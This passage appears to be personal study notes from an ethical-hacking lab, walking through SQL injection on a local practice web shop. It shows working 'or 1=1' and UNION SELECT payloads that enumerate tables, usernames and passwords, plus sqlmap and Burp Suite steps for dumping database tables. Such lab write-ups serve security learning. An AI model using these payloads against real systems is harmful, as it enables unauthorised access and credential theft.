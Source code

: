 - we can try to use the payload to find the password:
- `sqlmap -r req2.txt --level=2 --dump -T injection0x02`  -->  -T to try only for this table
	- URL encode cookie values --> n
	- store hashes --> n
	- crack them via dictionary attack -->  n

=>
<span style="color:#00b050">we found the password:</span>
![[Pasted image 20240307160349.png]]

#### Injection 0x03
 goal -->  find admin password
##### Manually
 if we type random string --> doesn't return anything
 =>
<span style="background:#fff88f"> test if webserver is vulnerable:</span>
 `randomString' or 1=1#`
 if it returns something => it's vulnerable (this is the case)
 
if we search a product => we find his description
=>
let's try to use [[Notes_ETH#Union|union]] -->  to find tables and maybe passwords
=>
<span style="background:#fff88f">first find the number of column that we need:</span>
`Senpai Knife Set' union select null,null,null,null#`
<span style="color:#00b050">with 4 null we found something</span>
![[Pasted image 20240307164349.png]]

=>
<span style="background:#fff88f">let's find the tables:</span>
`Senpai Knife Set' union select null,null,null,table_name from information_schema.tables#`
![[Pasted image 20240307163129.png]]

<span style="background:#fff88f">let's find usernames:</span>
`Senpai Knife Set' union select null,null,null,username from injection0x03_users#`
<span style="color:#00b050">we found an username</span> -->  takeshi
>[!example]
>if we don't know the column name
>=>
>we can:
>- guess it
>- enumerate it



<span style="background:#fff88f">let's find passwords:</span>
`Senpai Knife Set' union select null,null,null,password from injection0x03_users#`
<span style="color:#00b050">we found a password</span> -->  onigirigadaisuki

<span style="color:#00b050">finish :)</span>

##### sqlmap and BurpSuite
- enable foxyproxy
- click on Target > Scope Settings > Add > `http://localhost` > Ok > Yes
- click on one of the POST request
- copy it
- save it in a txt file and substitute the last with -->  `product=test`
- `sqlmap -r req.txt -T injection0x03_users --dump`
  ![[Pasted image 20240307171043.png]]

